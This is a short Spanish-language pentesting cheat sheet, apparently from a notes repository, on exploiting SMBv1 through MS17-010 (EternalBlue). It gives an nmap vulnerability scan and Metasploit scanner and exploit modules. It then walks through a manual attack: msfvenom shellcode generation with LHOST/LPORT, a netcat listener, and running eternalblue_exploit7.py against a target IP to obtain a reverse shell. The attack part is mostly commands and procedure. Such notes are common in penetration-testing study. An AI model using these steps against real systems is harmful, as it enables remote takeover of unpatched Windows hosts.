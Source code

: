 Ataca a SMBv1

# Scanner

## nmap
`nmap -sV -p445 --script=smb-vuln-ms17-010 <IP>`
## metasploit

module: **auxiliary/scanner/smb/smb_ms17_010**

# Exploit

## Manually

Usando el exploit https://github.com/3ndG4me/AutoBlue-MS17-01
1.- Clonamos el repositorio
2.- Nos metemos en el repositorio en el directorio shellcode y creamos el shell code que ejecutará la máquina, para ello ejecutamos el shell_prep.sh
	1.- Seleccionamos msfvenom para crear el payload
	2.- Ponemos el LHOST, el LPORT  que pide el script.
	3.- Elegimos si generar el payload como stage o stageless:
	
  Diferencias clave entre Staged y Stageless

| Característica                | **Staged (con etapas)**              | **Stageless (sin etapas)**               |
| ----------------------------- | ------------------------------------ | ---------------------------------------- |
| 🔹 **Ejecución**              | Se ejecuta en 2 fases                | Se ejecuta de una sola vez               |
| 🔹 **Tamaño del payload**     | Más pequeño (descarga la 2da etapa)  | Más grande (incluye todo)                |
| 🔹 **Dependencia de red**     | Necesita conexión para la 2da etapa  | No depende de red                        |
| 🔹 **Detección de Antivirus** | Más difícil de detectar (en memoria) | Más fácil de detectar (archivo completo) |

Esto generará dos binarios **sc_x64.bin** y **sc_x86.bin** y en función de la arquitectura de la máquina víctima se eligirá uno u otro.
3.- Nos ponemos en escucha con **netcat** `nc -nvlp 1234`
4.- En la raíz del repositorio, en función de la **versión** de windows de la máquina víctima, ejecutar uno de los scripts que hay: eternalblue_exploit7.py o 10 o 8...
	Para la version 7 o windows server 2008:
	`python eternalblue_exploit7.py <IP> shellcode/sc_x64.bin`
	
Listo tendremos una reverse_shell.
## Metasploit

Usar el módulo `exploit/windows/smb/ms17_010_eternalblue`
